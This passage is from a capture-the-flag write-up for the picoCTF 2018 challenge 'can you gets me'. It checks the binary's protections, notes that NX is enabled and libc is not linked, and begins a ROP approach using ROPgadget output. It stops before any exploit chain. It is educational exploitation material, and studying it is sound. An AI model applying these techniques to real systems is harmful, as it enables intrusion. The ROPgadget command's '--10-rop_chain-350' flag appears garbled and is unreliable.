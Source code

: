 In a first glimpse, we can think that overriding the return address and sending a shellcode will be enough.

A deeper observation tells us that the stack isn't executable [Data Execution Prevention](https://en.wikipedia.org/wiki/Executable_space_protection#Windows), [NX bit](https://en.wikipedia.org/wiki/NX_bit).

```bash
checksec ./gets

[*] 'CTFs-Writeups/picoCTF-2018/Binary/15-can_you_gets_me-650/gets'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled            :(
    PIE:      No PIE (0x8048000)
```

In addition, libc isn't linked here, so we can't use it (unlike [got-2-lean-libc](https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/06-got_2_learn_libc-250/solution.md)).
```bash
ldd ./gets

  not a dynamic executable


strings ./gets | grep bin

unexpected reloc type in static binary
invalid fastbin entry (free)
malloc(): smallbin double linked list corrupted
binding file %s [%lu] to %s [%lu]: %s symbol `%s'
_nl_domain_bindings
_dl_bind_not
```

No "/bin/sh".

As the hint says, we need to use ROP (a more advanced one then in [rop chain](https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/10-rop_chain-350/solution.md)).

### Method 1 - Using automatic tools
We will use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).

```bash
./ROPgadget/ROPgadget.py --binary ./gets --10-rop_chain-350

Gadgets information
============================================================
0x080aa3f8 : aaa ; add esp, 4 ; pop ebx ; pop esi ; ret
0x0806cd68 : aaa ; lea esp, dword ptr [ebp - 0xc] ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080b8329 : aaa ; push 1 ; push 1 ; call eax
0x080b8792 : aaa ; push dword ptr [esp + 0xc] ; mov eax, dword ptr [esp + 0x14] ; call eax
0x080b7d51 : aaa ; push ecx ; push 1 ; call eax
0x080b2957 : aad 0x81 ; loop 0x80b2962 ; dec dword ptr [edi] ; add byte ptr [ecx], cl ; ret 0xb474
0x080db5a9 : aad 0xf8 ; call dword ptr [ebx]
0x080d2b26 : aad 8 ; stosd dword ptr es:[edi], eax ; ret
0x080991b3 : aam 0 ; add byte ptr [eax], al ; mov eax, ebx ; pop ebx ; pop esi ; ret 8
0x0804a0c2 : aam 0x29 ; ret 0xea83
0x0808f18b : aam 0x5b ; ret
0x08082350 : aam 0x83 ; rol byte ptr [ecx], 0x29 ; fidivr dword ptr [ecx] ; ret 0xee7f
0x08070f93 : aam 0x89 ; retf
0x0809d4bd : aam 0x8b ; pop ebp ; or al, 1 ; ret
0x0808254f : aam 0x8b ; push edi ; add al, 1 ; retf 0xc085
0x0809a542 : aam 0x8d ; hlt ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080e473c : aam 0x9a ; sti ; call dword ptr [edx]
```